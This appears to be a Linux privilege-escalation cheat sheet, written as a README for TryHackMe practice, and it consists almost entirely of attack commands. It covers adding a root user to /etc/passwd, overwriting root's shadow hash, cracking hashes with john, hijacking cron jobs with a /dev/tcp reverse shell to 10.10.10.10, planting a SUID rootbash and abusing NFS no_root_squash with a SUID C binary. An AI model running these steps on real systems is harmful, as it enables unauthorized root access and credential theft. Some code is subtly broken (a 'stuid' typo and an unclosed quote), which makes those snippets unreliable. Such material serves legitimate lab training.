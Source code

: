 # Privilege Escalation for Linux (Cheat-Sheet)

# _Privilege Escalation for Linux (Cheat-Sheet)_

> ## **Sudo - Shell Escape Sequences**
>
> command `sudo -l`  
> Visit [GTFOBins](https://gtfobins.github.io/) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

> ## **SUID (Set-user Identification)**
>
> _command_ `find / -type f -perm -04000 -ls 2>/dev/null`  
> or  
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` will list files that have SUID or SGID bits set.  
> Visit Search result: [GTFOBins](https://gtfobins.github.io/)  
> try read the `/etc/shadow` file or adding our user to `/etc/passwd`
> add a new user that has root privileges.  
> We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux: _command_ `openssl passwd -1 -salt foo` Result: _$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B._  
> We will then add this password with a username to the `/etc/passwd` file: _hacker:$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B.:0:0:root:/root:/bin/bash_  
> Once our user is added we will need to switch to this user and hopefully should have root privileges.  
> **With _unshadow_ and _john_:**  
>  unshadow necesita los archivos _/etc/shadow_ and _/etc/passwd_  
>  create with result _shadow.txt_ and _passwd.txt_  
>  _command_ `unshadow passwd.txt shadow.txt > passwords`  
>  `john passwords` -> default brute force or `john --wordlist=diccionario.lst --rules password`

> ## **Capabilities**
>
> _command_ `getcap -r / 2>/dev/null`  
> Search [GTFOBins](https://gtfobins.github.io/) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

> ## **Cron Jobs - File Permissions**
>
> _command_ `cat /etc/crontab`  
> `locate overwrite.sh` or `locate backup.sh`  
> A similar situation where the "any.sh" script was deleted, but the cron job still exists.
> If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the _/etc/crontab_ file. In this case, we should be able to create a script named “any.sh” under our user’s home folder and it should be run by the cron job.  
> _modify or create script_

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6668 0>&1
```

> We will now run a listener on our attacking machine to receive the incoming connection:  
> _command_ `nc -nlvp 6668`

> ## **Cron Jobs - PATH Enviroment Variable**
>
> _command_ `cat /etc/crontab`  
> Note that the PATH variable starts with /home/user which is our user's home directory.  
> Create a file called overwrite.sh in your home directory with the following contents:  
> _modify script_

```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

> Make sure that the file is executable:  
> `chmod +x /home/user/overwrite.sh`  
> Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges: `/tmp/rootbash -p`

> ## **Weak File Permissions - Writable /etc/passwd**
>
> `ls -l /etc/passwd`  
> Generate a new password hash with a password of your choice:  
> `openssl passwd newpasswordhere`  
> Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").  
> Switch to the root user, using the new password.

> ## **Weak File Permissions - Writable /etc/shadow**
>
> `ls -l /etc/shadow`  
> Generate a new password hash with a password of your choice:  
> `mkpasswd -m sha-512 newpasswordhere`  
> Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.  
> Switch to the root user, using the new password.

> ## **NFS (Network File Sharing)**
>
> configuration is kept in the _/etc/exports_ file. This file is created during the NFS server installation and can usually be read by users.  
>  _command_ `cat /etc/exports`  
>  The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
>  We will start by enumerating mountable shares from our attacking machine: `showmount -e 10.10.10.10`  
>  We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable: `mkdir /tmp/backupsonattackermachine`  
>  `mount -o rw 10.10.10.10:/fileexport /tmp/backupsonattackermachine`  
>  As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job: `nano nfs.c`

```c
int main()
{ setgid(0);
  stuid(0);
  system("/bin/bash");
  return 0;
}
```

> Once we compile the code we will set the SUID bit: `gcc nfs.c -o nfs -w`  
>  `chmod +s nfs`  
>  `ls -l nfs`  
>  `./nfs`

> ## **Python**

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
```

Use these Rooms free TryHackMe for practice and learn

-   [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
-   [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
